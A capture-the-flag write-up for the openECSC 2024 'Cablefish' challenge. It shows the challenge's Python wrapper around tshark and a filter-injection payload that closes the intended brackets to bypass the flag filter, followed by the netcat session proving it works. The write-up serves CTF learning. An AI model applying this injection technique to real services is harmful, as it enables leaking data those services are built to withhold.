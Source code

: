 # Cablefish

## Description
```
Welcome to our platform! Here you can do traffic analysis via TCP, isn't it awesome?

Just specify your filter, we will sanitize it (we want to make sure no sensitive data will be leaked) and you will be given the traffic!

This is a remote challenge, you can connect with:

nc cablefish.challs.open.ecsc2024.it 38005
```

## Provided Files
```
- chall.py
```

## Writeup

Starting off I took a look at the provided file. <br/>
```py
#!/usr/bin/env python3

import os
import subprocess
import time

flag = os.getenv('FLAG', 'openECSC{redacted}')

def filter_traffic(filter):
    filter = filter[:50]
    sanitized_filter = f'(({filter}) and (not frame contains "flag_placeholder"))'
    p1 = subprocess.Popen(['tshark', '-r', '/home/user/capture.pcapng', '-Y', sanitized_filter, '-T', 'fields', '-e', 'tcp.payload'], shell=False, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    stdout, stderr = p1.communicate()

    if stderr != b'':
        return sanitized_filter, stderr.decode(), 'err'

    res = []
    for line in stdout.split(b'\n'):
        if line != b'':
            p2 = subprocess.Popen(['xxd', '-r', '-p'], shell=False, stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=open(os.devnull, 'wb'))
            stdout, _ = p2.communicate(input=line)
            p3 = subprocess.Popen(['xxd', '-c', '32'], shell=False, stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=open(os.devnull, 'wb'))
            stdout, _ = p3.communicate(input=stdout)
            res.append(stdout.decode().replace('flag_placeholder', flag))

    return sanitized_filter, res, 'ok'

----------------------
```

Now the important thing to notice in the python code above is the missing sanitization of our input. <br/>
Inspecting the filter input I saw that the missing sanitization allows us to escape the expression and therefore alter the complete filter (comparable to a simple sqli). <br/>
The filter basically takes our input and adds a second one which will filter the output to not contain the flag. <br/>
To solve the challenge we basicaly need to grab the flag and somehow alter the second filter to not filter the flag. <br/>
To exploit the filter escape I used the filter input `frame contains "flag_placeholder" )) or ((arp`. <br/>
Using this filter the complete filter will look like the one below. <br/>
```py
((frame contains "flag_placeholder" )) or ((arp) and (not frame contains "flag_placeholder"))
```

My input will escape the first pair of brackets and add and `or` switch which essentially states if either of the 2 filter trigger print the output. <br/>
Testing the filter escape. <br/>
```sh
nc cablefish.challs.open.ecsc2024.it 38005

                                            ,@@
                                        @@@/  @@
                                     @@      &@
                                   @@        @*
                                 ,@          @*
                                ,@           @@
                                @,            @.
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@              @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@


                         ,,        ,,                    ,,           ,,
       .g8"""bgd        *MM      `7MM         `7MM"""YMM db         `7MM
     .dP'     `M         MM        MM           MM    `7              MM
     dM'       ` ,6"Yb.  MM,dMMb.  MM  .gP"Ya   MM   d `7MM  ,pP"Ybd  MMpMMMb.
     MM         8)   MM  MM    `Mb MM ,M'   Yb  MM""MM   MM  8I   `"  MM    MM
     MM.         ,pm9MM  MM     M8 MM 8M""""""  MM   Y   MM  `YMMMa.  MM    MM
     `Mb.     ,'8M   MM  MM.   ,M9 MM YM.    ,  MM       MM  L.   I8  MM    MM
       `"bmmmd' `Moo9^Yo.P^YbmdP'.JMML.`Mbmmd'.JMML.   .JMML.M9mmmP'.JMML  JMML.


Please, specify your filter: frame contains "flag_placeholder" )) or ((arp
Loading, please wait...
Evaluating the filter: ((frame contains "flag_placeholder" )) or ((arp) and (not frame contains "flag_placeholder"))

openECSC{REDACTED}.

End of the results. Bye!
```

Obtaining the flag concludes this writeup. 
